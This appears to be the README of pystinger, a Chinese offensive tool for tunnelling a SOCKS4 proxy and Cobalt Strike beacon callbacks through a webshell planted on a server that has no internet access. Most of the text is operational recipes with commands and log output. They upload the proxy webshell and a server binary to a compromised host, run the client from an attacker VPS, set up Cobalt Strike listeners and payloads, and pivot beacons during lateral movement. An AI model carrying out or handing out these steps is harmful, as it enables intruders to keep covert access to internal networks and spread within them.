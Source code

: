 # 毒刺(pystinger)

毒刺(pystinger)通过webshell实现**内网SOCK4代理**,**端口映射**.

可直接用于metasploit-framework,viper,cobalt strike上线.

主体使用python开发,当前支持php,jsp(x),aspx三种代理脚本.

# 使用方法

> 假设不出网服务器域名为 [http://example.com:8080](http://192.168.3.11:8080) ,服务器内网IP地址为192.168.3.11

## SOCK4代理


* proxy.jsp上传到目标服务器,确保 [http://example.com:8080/proxy.jsp](http://example.com:8080/proxy.jsp) 可以访问,页面返回 stinger XXX!
* 将stinger_server.exe上传到目标服务器,蚁剑/冰蝎执行```start D:/XXX/stinger_server.exe```启动服务端
> 不要直接运行D:/XXX/stinger_server.exe,会导致tcp断连
* vps执行```./stinger_client -w http://example.com:8080/proxy.jsp -l 0.0.0.0 -p 60000```
* 如下输出表示成功
```
root@kali:~# ./stinger_client -w http://example.com:8080/proxy.jsp -l 127.0.0.1 -p 60000
2020-01-06 21:12:47,673 - INFO - 619 - Local listen checking ...
2020-01-06 21:12:47,674 - INFO - 622 - Local listen check pass
2020-01-06 21:12:47,674 - INFO - 623 - Socks4a on 127.0.0.1:60000
2020-01-06 21:12:47,674 - INFO - 628 - WEBSHELL checking ...
2020-01-06 21:12:47,681 - INFO - 631 - WEBSHELL check pass
2020-01-06 21:12:47,681 - INFO - 632 - http://example.com:8080/proxy.jsp
2020-01-06 21:12:47,682 - INFO - 637 - REMOTE_SERVER checking ...
2020-01-06 21:12:47,696 - INFO - 644 - REMOTE_SERVER check pass
2020-01-06 21:12:47,696 - INFO - 645 - --- Sever Config ---
2020-01-06 21:12:47,696 - INFO - 647 - client_address_list => []
2020-01-06 21:12:47,696 - INFO - 647 - SERVER_LISTEN => 127.0.0.1:60010
2020-01-06 21:12:47,696 - INFO - 647 - LOG_LEVEL => INFO
2020-01-06 21:12:47,697 - INFO - 647 - MIRROR_LISTEN => 127.0.0.1:60020
2020-01-06 21:12:47,697 - INFO - 647 - mirror_address_list => []
2020-01-06 21:12:47,697 - INFO - 647 - READ_BUFF_SIZE => 51200
2020-01-06 21:12:47,697 - INFO - 673 - TARGET_ADDRESS : 127.0.0.1:60020
2020-01-06 21:12:47,697 - INFO - 677 - SLEEP_TIME : 0.01
2020-01-06 21:12:47,697 - INFO - 679 - --- RAT Config ---
2020-01-06 21:12:47,697 - INFO - 681 - Handler/LISTEN should listen on 127.0.0.1:60020
2020-01-06 21:12:47,697 - INFO - 683 - Payload should connect to 127.0.0.1:60020
2020-01-06 21:12:47,698 - WARNING - 111 - LoopThread start
2020-01-06 21:12:47,703 - WARNING - 502 - socks4a server start on 127.0.0.1:60000
2020-01-06 21:12:47,703 - WARNING - 509 - Socks4a ready to accept
```
* 此时已经在vps```127.0.0.1:60000```启动了一个```192.168.3.11```所在内网的**socks4a**代理
* 此时已经将目标服务器的```127.0.0.1:60020```映射到vps的```127.0.0.1:60020```

## cobalt strike单主机上线

* proxy.jsp上传到目标服务器,确保 [http://example.com:8080/proxy.jsp](http://example.com:8080/proxy.jsp) 可以访问,页面返回 stinger XXX!
* 将stinger_server.exe上传到目标服务器,蚁剑/冰蝎执行```start D:/XXX/stinger_server.exe```启动服务端
> 不要直接运行D:/XXX/stinger_server.exe,会导致tcp断连
* stinger_client命令行执行```./stinger_client -w http://example.com:8080/proxy.jsp -l 0.0.0.0 -p 60000```
* 如下输出表示成功
```
root@kali:~# ./stinger_client -w http://example.com:8080/proxy.jsp -l 127.0.0.1 -p 60000
2020-01-06 21:12:47,673 - INFO - 619 - Local listen checking ...
2020-01-06 21:12:47,674 - INFO - 622 - Local listen check pass
2020-01-06 21:12:47,674 - INFO - 623 - Socks4a on 127.0.0.1:60000
2020-01-06 21:12:47,674 - INFO - 628 - WEBSHELL checking ...
2020-01-06 21:12:47,681 - INFO - 631 - WEBSHELL check pass
2020-01-06 21:12:47,681 - INFO - 632 - http://example.com:8080/proxy.jsp
2020-01-06 21:12:47,682 - INFO - 637 - REMOTE_SERVER checking ...
2020-01-06 21:12:47,696 - INFO - 644 - REMOTE_SERVER check pass
2020-01-06 21:12:47,696 - INFO - 645 - --- Sever Config ---
2020-01-06 21:12:47,696 - INFO - 647 - client_address_list => []
2020-01-06 21:12:47,696 - INFO - 647 - SERVER_LISTEN => 127.0.0.1:60010
2020-01-06 21:12:47,696 - INFO - 647 - LOG_LEVEL => INFO
2020-01-06 21:12:47,697 - INFO - 647 - MIRROR_LISTEN => 127.0.0.1:60020
2020-01-06 21:12:47,697 - INFO - 647 - mirror_address_list => []
2020-01-06 21:12:47,697 - INFO - 647 - READ_BUFF_SIZE => 51200
2020-01-06 21:12:47,697 - INFO - 673 - TARGET_ADDRESS : 127.0.0.1:60020
2020-01-06 21:12:47,697 - INFO - 677 - SLEEP_TIME : 0.01
2020-01-06 21:12:47,697 - INFO - 679 - --- RAT Config ---
2020-01-06 21:12:47,697 - INFO - 681 - Handler/LISTEN should listen on 127.0.0.1:60020
2020-01-06 21:12:47,697 - INFO - 683 - Payload should connect to 127.0.0.1:60020
2020-01-06 21:12:47,698 - WARNING - 111 - LoopThread start
2020-01-06 21:12:47,703 - WARNING - 502 - socks4a server start on 127.0.0.1:60000
2020-01-06 21:12:47,703 - WARNING - 509 - Socks4a ready to accept
```
* cobalt strike添加监听,端口选择输出信息RAT Config中的Handler/LISTEN中的端口(通常为60020),beacons为127.0.0.1
* 生成payload,上传到主机运行后即可上线

## cobalt strike多主机上线

* proxy.jsp上传到目标服务器,确保 [http://example.com:8080/proxy.jsp](http://example.com:8080/proxy.jsp) 可以访问,页面返回 stinger XXX!
* 将stinger_server.exe上传到目标服务器,蚁剑/冰蝎执行```start D:/XXX/stinger_server.exe 192.168.3.11```启动服务端
> 192.168.3.11可以改成0.0.0.0
* stinger_client命令行执行```./stinger_client -w http://example.com:8080/proxy.jsp -l 127.0.0.1 -p 60000```
* 如下输出表示成功
```
root@kali:~# ./stinger_client -w http://example.com:8080:8080/proxy.jsp -l 127.0.0.1 -p 60000
2020-01-06 21:12:47,673 - INFO - 619 - Local listen checking ...
2020-01-06 21:12:47,674 - INFO - 622 - Local listen check pass
2020-01-06 21:12:47,674 - INFO - 623 - Socks4a on 127.0.0.1:60000
2020-01-06 21:12:47,674 - INFO - 628 - WEBSHELL checking ...
2020-01-06 21:12:47,681 - INFO - 631 - WEBSHELL check pass
2020-01-06 21:12:47,681 - INFO - 632 - http://example.com:8080/proxy.jsp
2020-01-06 21:12:47,682 - INFO - 637 - REMOTE_SERVER checking ...
2020-01-06 21:12:47,696 - INFO - 644 - REMOTE_SERVER check pass
2020-01-06 21:12:47,696 - INFO - 645 - --- Sever Config ---
2020-01-06 21:12:47,696 - INFO - 647 - client_address_list => []
2020-01-06 21:12:47,696 - INFO - 647 - SERVER_LISTEN => 127.0.0.1:60010
2020-01-06 21:12:47,696 - INFO - 647 - LOG_LEVEL => INFO
2020-01-06 21:12:47,697 - INFO - 647 - MIRROR_LISTEN => 192.168.3.11:60020
2020-01-06 21:12:47,697 - INFO - 647 - mirror_address_list => []
2020-01-06 21:12:47,697 - INFO - 647 - READ_BUFF_SIZE => 51200
2020-01-06 21:12:47,697 - INFO - 673 - TARGET_ADDRESS : 127.0.0.1:60020
2020-01-06 21:12:47,697 - INFO - 677 - SLEEP_TIME : 0.01
2020-01-06 21:12:47,697 - INFO - 679 - --- RAT Config ---
2020-01-06 21:12:47,697 - INFO - 681 - Handler/LISTEN should listen on 127.0.0.1:60020
2020-01-06 21:12:47,697 - INFO - 683 - Payload should connect to 192.168.3.11:60020
2020-01-06 21:12:47,698 - WARNING - 111 - LoopThread start
2020-01-06 21:12:47,703 - WARNING - 502 - socks4a server start on 127.0.0.1:60000
2020-01-06 21:12:47,703 - WARNING - 509 - Socks4a ready to accept
```
* cobalt strike添加监听,端口选择RAT Config中的Handler/LISTEN中的端口(通常为60020),beacons为192.168.3.11
* 生成payload,上传到主机运行后即可上线
* 横向移动到其他主机时可以将payload指向192.168.3.11:60020即可实现出网上线


# 相关工具
[https://github.com/nccgroup/ABPTTS](https://github.com/nccgroup/ABPTTS)

[https://github.com/sensepost/reGeorg](https://github.com/sensepost/reGeorg)

[https://github.com/SECFORCE/Tunna](https://github.com/SECFORCE/Tunna)

# 已测试
## stinger_server\stinger_client
* windows 
* linux
## proxy.jsp(x)/php/aspx
* php7.2 
* tomcat7.0 
* iis8.0

# 更新日志
**2.0**
更新时间: 2019-09-29
* 将socks4代理服务移动到客户端
* 不再支持端口转发功能

**2.1**
更新时间: 2020-01-07
* 支持CS上线功能(即端口映射功能)
